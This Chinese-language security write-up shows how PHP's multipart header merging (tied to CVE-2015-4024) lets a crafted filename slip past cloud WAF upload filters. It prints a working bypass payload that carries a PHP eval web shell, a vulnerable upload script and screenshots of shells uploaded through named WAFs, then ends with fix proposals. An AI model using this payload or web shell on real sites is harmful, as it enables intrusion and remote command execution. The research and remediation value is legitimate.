 # PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed

0x00 背景介绍
=========

* * *

今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，中文版：[http://drops.wooyun.org/papers/6077](http://drops.wooyun.org/papers/6077)，英文版 ：[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

0x01 绕过WAF的原理
=============

* * *

根据PHP DOS漏洞原理，在`multipart_buffer_headers`函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

```
prev_len= strlen(prev_entry.value);
     cur_len= strlen(line);
 
     entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存
     memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝
     memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝
     entry.value[cur_len+ prev_len] = '\0';
 
     entry.key= estrdup(prev_entry.key);
 
     zend_llist_remove_tail(header);//1次内存释放

```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP`multipart_buffer_headers`函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是“`test3.jpg\nf/shell.php`”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

文件上传功能测试脚：

```
<?php
         $name = $_FILES['file']['name'];
        echo $name;
        echo "\n";
        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);
        echo "upload success! ".$_FILES['file']['name'];
        echo "\n";
        echo strlen($_FILES['file']['name']);
?>

```

Payload能够正常上传

images:  401780431bb9907c1c4bc970b8bbcde16487d916.jpg

0x02 绕过WAF实战
============

* * *

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

### 2.1 绕过360网站卫士

步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

images:  4a7a37194ab919214ba3b3dedeaee37fce4edd1b.jpg

步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

images:  d19b5ec78ddaa2fa4cb2f07169a897cdb5d07e7d.jpg

### 2.2 绕过知道创宇加速乐

步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

images:  8c767622e3276ff0693998b4e5da701aedd74e8f.jpg

步骤二：

成功绕过加速乐，上传shell，文件是syt.php。

images:  77dba35b112fcca026f2c83535e1ebdea3a08d13.jpg

### 2.3 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

images:  4c5770fabf43ac6d2506ea9687f30cd9b67daa66.jpg

步骤二：成功绕过云加速

images:  9915b91da8dcee04e551a56d37b0e31214a49972.jpg

### 2.4 安全狗的测试

用该方法测试安全狗的文件上传，

```
Content-Disposition: form-data; name="file"; filename="2.php
aa:
Content-Type: image/jpeg

```

php与aa这间的是`%0a`，处理请求的Apache进程直接崩溃。感觉可以溢出，没有深入。

### 2.5 CloudFlare的测试

为了测试能否绕过国外版的CloudFlare，特意买了它的服务。结果，在规则全开的情况下，竞然不拦截文件上传。

images:  7e99e49c7af2381b3615e8aa2fa49ef7e16560bd.jpg

images:  9846ee8a2245e83a59f976f194949b4c806a424b.jpg

### 2.6 Amazon WAF

亚马逊的WAF没有规则，所有规则需要用户配置。在配置的选项里，没有文件上传的选项，所以也就没有绕过的说法。国内WAF和国外WAF的区别挺大，为什么这么设计还是值得深思。

images:  fc38831f05f0db91e7c128868a36c7fa226bd851.jpg

我们还绕过了其他WAF，这里不一一列举。

0x03 扩展—更多的工作
=============

* * *

### 3.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

### 3.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

0x04 修复方案
=========

* * *

### 4.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

### 4.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号或双引号闭合。

0x05 总结
=======

* * *

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。